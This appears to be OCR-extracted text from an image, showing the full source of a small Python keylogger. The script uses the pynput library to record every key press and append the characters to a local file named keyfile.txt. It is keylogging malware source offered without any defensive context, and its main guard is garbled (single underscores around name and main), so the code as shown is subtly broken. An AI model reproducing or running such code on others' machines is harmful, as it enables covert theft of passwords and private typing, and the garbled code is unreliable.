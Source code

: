 from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if _name_ == "_main_":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
    
